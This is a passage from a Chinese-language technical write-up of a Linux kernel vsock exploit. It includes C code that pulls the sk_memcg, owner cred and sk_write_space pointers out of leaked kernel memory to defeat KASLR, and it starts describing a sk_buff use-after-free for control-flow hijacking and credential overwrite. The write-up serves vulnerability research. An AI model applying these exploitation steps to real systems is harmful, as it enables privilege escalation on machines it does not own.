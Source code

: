 </li>


## 0x08 寻找攻击目标

以下是我找到的点：<br>
1.专用的块缓存，如`PINGv6`和`sock_inode_cache`有很多指向对象的指针<br>
2.`struct mem_cgroup *sk_memcg`指针在`vsock_sock.sk`偏移量664处。`mem_cgroup`结构是在`kmalloc-4k`块缓存中分配的。<br>
3.`const struct cred *owner`指针在`vsock_sock.sk`偏移量840处，存储了可以覆盖进行权限升级的凭证的地址。<br>
4.`void (*sk_write_space)(struct sock *)`函数指针在`vsock_sock.sk`偏移量688处，被设置为`sock_def_write_space()`内核函数的地址。它可以用来计算`KASLR`偏移量。

下面是该漏洞如何从内存中提取这些指针:

```
#define SK_MEMCG_RD_LOCATION    (DATALEN_MSG + SK_MEMCG_OFFSET)
#define OWNER_CRED_OFFSET    840
#define OWNER_CRED_RD_LOCATION    (DATALEN_MSG + OWNER_CRED_OFFSET)
#define SK_WRITE_SPACE_OFFSET    688
#define SK_WRITE_SPACE_RD_LOCATION (DATALEN_MSG + SK_WRITE_SPACE_OFFSET) 
/*
 * From Linux kernel 5.10.11-200.fc33.x86_64:
 *   function pointer for calculating KASLR secret
 */
#define SOCK_DEF_WRITE_SPACE    0xffffffff819851b0lu 
unsigned long sk_memcg = 0;
unsigned long owner_cred = 0;
unsigned long sock_def_write_space = 0;
unsigned long kaslr_offset = 0;

/* ... */

    sk_memcg = kmem[SK_MEMCG_RD_LOCATION / sizeof(uint64_t)];
    printf("[+] Found sk_memcg %lx (offset %ld in the leaked kmem)\n",
            sk_memcg, SK_MEMCG_RD_LOCATION);

    owner_cred = kmem[OWNER_CRED_RD_LOCATION / sizeof(uint64_t)];
    printf("[+] Found owner cred %lx (offset %ld in the leaked kmem)\n",
            owner_cred, OWNER_CRED_RD_LOCATION);

    sock_def_write_space = kmem[SK_WRITE_SPACE_RD_LOCATION / sizeof(uint64_t)];
    printf("[+] Found sock_def_write_space %lx (offset %ld in the leaked kmem)\n",
            sock_def_write_space, SK_WRITE_SPACE_RD_LOCATION);

    kaslr_offset = sock_def_write_space - SOCK_DEF_WRITE_SPACE;
    printf("[+] Calculated kaslr offset: %lx\n", kaslr_offset);
```



## 0x09 在 sk_buff 上实现 Use-after-free

Linux内核中与网络相关的缓冲区用`struct sk_buff`表示，这个对象中有`skb_shared_info`与`destructor_arg`，可以用于控制流劫持。网络数据和`skb_shared_info`被放置在由`sk_buff.head`指向的同一个内核内存块中。因此，在用户空间中创建一个2800字节的网络数据包会使`skb_shared_info`被分配到`kmalloc-4k`块缓存中，`mem_cgroup`对象也是如此。
